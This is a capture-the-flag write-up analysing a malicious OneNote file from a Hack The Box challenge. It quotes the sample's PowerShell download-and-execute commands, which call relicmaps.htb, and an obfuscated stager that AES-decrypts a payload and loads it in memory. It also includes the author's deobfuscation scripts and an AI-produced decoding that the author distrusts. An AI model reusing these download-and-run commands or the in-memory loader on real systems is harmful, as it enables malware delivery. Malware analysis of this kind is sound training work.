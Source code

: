 Given a docker container and a url: `http://relicmaps.htb:<port>/relicmaps.one`

# Solution
Resolve the hostname in `/etc/hosts`

This gives a relicmaps.one file.

Binwalk:
```
DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
10388         0x2894          PNG image, 1422 x 900, 8-bit/color RGBA, non-interlaced
10924         0x2AAC          Zlib compressed data, best compression
47215         0xB86F          HTML document header
48865         0xBEE1          HTML document footer
50084         0xC3A4          PNG image, 32 x 32, 8-bit/color RGBA, non-interlaced
50636         0xC5CC          PNG image, 440 x 66, 8-bit/color RGB, non-interlaced
50727         0xC627          Zlib compressed data, compressed

```

IDK how to use dd so just going to strings the file and manually pull the html doc, which has a powershell command.
```powershell
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
	    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
```

This downloads two files `http://relicmaps.htb/uploads/soft/topsecret-maps.one` and `http://relicmaps.htb/get/DdAbds/window.bat` which get run as proceses.

topsecretmaps.one seems to pull down the window.bat file.

the window.bat file seems interesting. There is a b64 blob but it doesn't seem to go anywhere.

After deobfuscating the bat file with a python script:
```python
dict = {}
with open('window.bat','r') as f:
    for line in f:
        if line[0] =="%" and line[5] == '%':
            line = line[7:-2]
            name = line[:10]
            value = line[11:]
            dict[name] = value
        else:
            obfs = line.split("%")
            out = ''
            for i in obfs:
                if len(i) ==10 and '@' not in i:
                    out+=dict[i]
            print(out)

```
there is a ps1 script:
```powershell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "%~0.exe"

cd "%~dp0"
"%~nx0.exe" -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```
Which uses the base64 blob which was encoded.

Chatgpt decodes it to be the following:
```
# Get the script's file path and name
$scriptPath = "$($MyInvocation.MyCommand.Path)"

# Find the first comment in the script
$scriptContent = Get-Content $scriptPath
foreach ($line in $scriptContent) {
    if ($line.StartsWith(':: ')) {
        $comment = $line.Substring(3)
        break
    }
}

# Decrypt and decompress the payload
$encryptedPayload = [Convert]::FromBase64String('LkEaRUbq5nx5r5w5mZl5YYiylX9YCLzRqwRfzeFJbjM=')
$key = [Convert]::FromBase64String('3be52kC6dsTNseetP84UzxMZcU6MBHlVLfBOWcnIqnA=')
$iv = [Convert]::FromBase64String('7JQ2Ex+vbG7Vh8mn/ubk0w==')
$aes = New-Object Security.Cryptography.AesManaged
$aes.Mode = [Security.Cryptography.CipherMode]::CBC
$aes.Padding = [Security.Cryptography.PaddingMode]::PKCS7
$aes.Key = $key
$aes.IV = $iv
$decryptor = $aes.CreateDecryptor()
$decryptedPayload = $decryptor.TransformFinalBlock($encryptedPayload, 0, $encryptedPayload.Length)
$decryptor.Dispose()
$aes.Dispose()

# Decompress the decrypted payload
$compressedPayload = New-Object IO.MemoryStream(,$decryptedPayload)
$decompressedPayload = New-Object IO.MemoryStream
$gzipStream = New-Object IO.Compression.GZipStream($compressedPayload, [IO.Compression.CompressionMode]::Decompress)
$gzipStream.CopyTo($decompressedPayload)
$gzipStream.Dispose()
$compressedPayload.Dispose()
$decompressedPayload.Dispose()

# Execute the payload
$assembly = [System.Reflection.Assembly]::Load($decompressedPayload.ToArray())
$entryPoint = $assembly.EntryPoint
$entryPoint.Invoke($null, (, [string[]] ($args)))
```

I dont trust the above. So time to decode manually Or even better just going to run the stager without the execution phase, printing it out instead.

This gives a byte dump. Converting in python.
```python
x = ''
for line in open('byte.dmp','r'):
	line = line.strip().split(' ')
	for i in line:
		if i!='0':
			x+=chr(int(i))
with open('stage3.ps1','w') as f:
	f.write(x+'\n')
```

Looking at the file there is the flag:
```
HTB{0neN0Te?_iT'5_4_tr4P!}
```

Very fun challenge!